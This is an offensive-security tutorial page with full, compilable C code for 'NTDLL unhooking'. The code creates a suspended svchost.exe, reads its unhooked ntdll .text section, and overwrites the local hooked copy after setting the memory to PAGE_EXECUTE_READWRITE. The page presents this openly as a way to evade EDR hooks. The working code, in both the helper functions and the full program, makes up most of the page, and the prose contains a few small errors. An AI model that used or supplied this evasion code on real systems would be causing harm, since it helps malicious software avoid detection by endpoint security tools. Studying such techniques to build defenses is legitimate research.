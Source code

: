 # NTDLL Unhooking - From Suspended Process

## Introduction

An alternate approach to loading NTDLL is to read it from a suspended process. This works because EDR's require a running process to to install their hooks. Here's how it works:

* We create a process in a suspended state. (Contains clean ntdll.dll)
* Get local base address of ntdll.dll. (Imported dlls share the same base address between processes)
* Get remote address of suspended process
* Access remote ntdll by fetching the local ntdll address (imported DLL's have the same VA values between processes)PAGE\_EXECUTE\_READWRITE
* Allocate Heap and copy .text from remote to local using SizOfCode found in OptionalHeader
* VirtualProtect local ntdll with RW & Copy memory from heap to ntdll base address.

Do to ASLR, the virtual address of an imported library will be the same throughout all processes that import it. This is shared below:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>



## Example

The below screen shot is of svchost.exe (a suspended process we started). We are locating the NTDLL.dll based on the same address we fetched from the local PEB in unhooking.exe

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Required Helper Functions

The following functions are required to create a suspended file, get the base address of the created file,  and to get the address of the local ntdll.dll

```c

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}

```



### Full Code

{% code fullWidth="true" %}
```c
#include <windows.h>
#include <winternl.h>
#include <wchar.h>
#include <stdio.h>

#define NTDLL L"NTDLL"

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}


int wmain() {

    // Create process
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    PROCESS_BASIC_INFORMATION pbi = {0};

    // Create Suspended Process
    if (!CreateSuspendedProcess(&si, &pi)) {
        return -1;
    }

    // Get Local NTDLL Base Address
    PVOID pNtdllBaseAddress = FetchLocalNtdllAddress();

    wprintf(L"[+] NTDLL Base Address %p\n", pNtdllBaseAddress);
    wprintf(L"[+] Suspended PIDS: %d\n", pi.dwProcessId);


    // Parse Local PE Headers
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pNtdllBaseAddress;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        wprintf(L"[!] DOS Signature Failed\n");
        return -1;
    }

    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pNtdllBaseAddress + pDosHeader->e_lfanew);

    if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
        wprintf(L"[!] NT Signature Failed\n ");
        return -1;
    }

    PIMAGE_OPTIONAL_HEADER pImgOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    // Get Size of .Text Section
    DWORD dwNtdllTextSize = pImgOptionalHeader->SizeOfCode;
    // Get Base address of .Text Section
    PVOID pAddressOfText = pNtdllBaseAddress + pImgOptionalHeader->BaseOfCode;


    wprintf(L"[+] Size of NTDLL .text section %d\n", dwNtdllTextSize);

    // Allocate Heap
    PVOID lpBuffer = HeapAlloc(GetProcessHeap(), 0, dwNtdllTextSize);

    // Copy Remote .Text Section to Allocated Buffer
    size_t ulBytesWritten = 0;
    ReadProcessMemory(pi.hProcess, pAddressOfText, lpBuffer, dwNtdllTextSize,  &ulBytesWritten);

    wprintf(L"[+] Wrote %d bytes to: %p\n", ulBytesWritten, lpBuffer);

    // Change permissions of local NTDLL
    DWORD dwOldPermissions;
    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, PAGE_EXECUTE_READWRITE, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[1] Failed %d", GetLastError() );
        return -1;
    }

    // This is just a POC, to avoid evasion properly needs more.
    // Example: Breaking apart copy into seperate spread out functions

    memcpy(pAddressOfText, lpBuffer, dwNtdllTextSize);

    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, dwOldPermissions, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[2] Failed %d", GetLastError() );
        return -1;
    }

    getchar();
    return 0;
}

```
{% endcode %}
